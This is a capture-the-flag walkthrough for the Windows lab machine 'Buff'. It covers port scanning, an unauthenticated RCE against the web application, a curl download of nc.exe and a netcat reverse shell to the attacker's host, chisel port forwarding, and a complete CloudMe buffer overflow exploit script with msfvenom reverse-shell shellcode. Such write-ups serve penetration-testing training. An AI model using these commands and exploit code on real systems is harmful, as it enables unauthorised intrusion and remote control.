- Machine Name: Buff
- OS Type: Windows
- Difficulty: Easy

### Port Scanning - Service & Version Enumeration

```bash
PORT     STATE SERVICE    REASON          VERSION
7680/tcp open  pando-pub? syn-ack ttl 127
8080/tcp open  http       syn-ack ttl 127 Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: mrb3n's Bro Hut
| http-methods: 
|_  Supported Methods: HEAD POST
```

## Enumeration

### Port 8080/HTTP

port 8080 is open on target machine, and running webservice



let’s check web technology using whatweb

```bash
whatweb http://10.10.10.198:8080
```



navigate to contact tab and i found the software name and version using in website



https://www.exploit-db.com/exploits/48506 

i found the Unauthenticated RCE let’s copy exploit to our current working directory

```bash
searchsploit -m 48506
```



but it is the webshell but we need proper reverse shell let’s use the curl and nc.exe to get full reverse shell

start python http server

```bash
python3 -m http.server 80
```



```bash
curl http://10.10.14.17/nc.exe -o nc.exe
```

start listener on kali linux using `rlwrap -r nc -nvlp 443` 

execute nc.exe to get shell

```bash
nc.exe 10.10.14.17 443 -e cmd
```



## Post-Enum

starting my post enumeration from `whoami /priv` 



in shaun user’s directory i found 2 interesting files



google search reveals that the CloudMe 1.11.2 is vulnerable to Buffer Overflow https://www.exploit-db.com/exploits/48389

also machine name is buff we assume that it is the Attack vector to get Administrator 

reading the exploit we found it’s run on port 8888 by default let’s check if any service is running on port 8888

```bash
netstat -P TCP -ant
```



we’ll need to forward 8888 port to our kali machine so we can access the service from our machine and exploit it

we’ll use chisel for forwarding port, first transfer chisel.exe to target machine start chisel server on kalli  

```bash
chisel server --reverse --port 5000
```

on target machine

```bash
chisel.exe client 10.10.14.17:5000 R:8888:127.0.0.1:8888
```

we got connection on chisel server



now we need to generate our shell code and replace it  with the default shell code in exploit

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.17 LPORT=445 '\x00\x0A\x0D' -f python -v payload
```

paste the generated shell code into exploit

```bash
# Exploit Title: CloudMe 1.11.2 - Buffer Overflow (PoC)
# Date: 2020-04-27
# Exploit Author: Andy Bowden
# Vendor Homepage: https://www.cloudme.com/en
# Software Link: https://www.cloudme.com/downloads/CloudMe_1112.exe
# Version: CloudMe 1.11.2
# Tested on: Windows 10 x86

#Instructions:
# Start the CloudMe service and run the script.

import socket

target = "127.0.0.1"

padding1   = b"\x90" * 1052
EIP        = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
NOPS       = b"\x90" * 30

#msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.17 LPORT=445 '\x00\x0A\x0D' -f python -v payload
**payload =  b""
payload += b"\xda\xdd\xd9\x74\x24\xf4\x5f\x29\xc9\xb8\x23"
payload += b"\x9e\xe7\xab\xb1\x52\x31\x47\x17\x83\xc7\x04"
payload += b"\x03\x64\x8d\x05\x5e\x96\x59\x4b\xa1\x66\x9a"
payload += b"\x2c\x2b\x83\xab\x6c\x4f\xc0\x9c\x5c\x1b\x84"
payload += b"\x10\x16\x49\x3c\xa2\x5a\x46\x33\x03\xd0\xb0"
payload += b"\x7a\x94\x49\x80\x1d\x16\x90\xd5\xfd\x27\x5b"
payload += b"\x28\xfc\x60\x86\xc1\xac\x39\xcc\x74\x40\x4d"
payload += b"\x98\x44\xeb\x1d\x0c\xcd\x08\xd5\x2f\xfc\x9f"
payload += b"\x6d\x76\xde\x1e\xa1\x02\x57\x38\xa6\x2f\x21"
payload += b"\xb3\x1c\xdb\xb0\x15\x6d\x24\x1e\x58\x41\xd7"
payload += b"\x5e\x9d\x66\x08\x15\xd7\x94\xb5\x2e\x2c\xe6"
payload += b"\x61\xba\xb6\x40\xe1\x1c\x12\x70\x26\xfa\xd1"
payload += b"\x7e\x83\x88\xbd\x62\x12\x5c\xb6\x9f\x9f\x63"
payload += b"\x18\x16\xdb\x47\xbc\x72\xbf\xe6\xe5\xde\x6e"
payload += b"\x16\xf5\x80\xcf\xb2\x7e\x2c\x1b\xcf\xdd\x39"
payload += b"\xe8\xe2\xdd\xb9\x66\x74\xae\x8b\x29\x2e\x38"
payload += b"\xa0\xa2\xe8\xbf\xc7\x98\x4d\x2f\x36\x23\xae"
payload += b"\x66\xfd\x77\xfe\x10\xd4\xf7\x95\xe0\xd9\x2d"
payload += b"\x39\xb0\x75\x9e\xfa\x60\x36\x4e\x93\x6a\xb9"
payload += b"\xb1\x83\x95\x13\xda\x2e\x6c\xf4\xef\xa4\x60"
payload += b"\x15\x98\xba\x7c\x14\xe5\x32\x9a\x7c\x05\x13"
payload += b"\x35\xe9\xbc\x3e\xcd\x88\x41\x95\xa8\x8b\xca"
payload += b"\x1a\x4d\x45\x3b\x56\x5d\x32\xcb\x2d\x3f\x95"
payload += b"\xd4\x9b\x57\x79\x46\x40\xa7\xf4\x7b\xdf\xf0"
payload += b"\x51\x4d\x16\x94\x4f\xf4\x80\x8a\x8d\x60\xea"
payload += b"\x0e\x4a\x51\xf5\x8f\x1f\xed\xd1\x9f\xd9\xee"
payload += b"\x5d\xcb\xb5\xb8\x0b\xa5\x73\x13\xfa\x1f\x2a"
payload += b"\xc8\x54\xf7\xab\x22\x67\x81\xb3\x6e\x11\x6d"
payload += b"\x05\xc7\x64\x92\xaa\x8f\x60\xeb\xd6\x2f\x8e"
payload += b"\x26\x53\x5f\xc5\x6a\xf2\xc8\x80\xff\x46\x95"
payload += b"\x32\x2a\x84\xa0\xb0\xde\x75\x57\xa8\xab\x70"
payload += b"\x13\x6e\x40\x09\x0c\x1b\x66\xbe\x2d\x0e"**

overrun    = b"C" * (1500 - len(padding1 + NOPS + EIP + payload))

buf = padding1 + EIP + NOPS + payload + overrun
print(buf)

try:
	s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((target,8888))
	s.send(buf)
except Exception as e:
	print(sys.exc_value)

```

start netcat listener on port 445

run exploit using

```bash
python3 48389.py
```

we got shell!

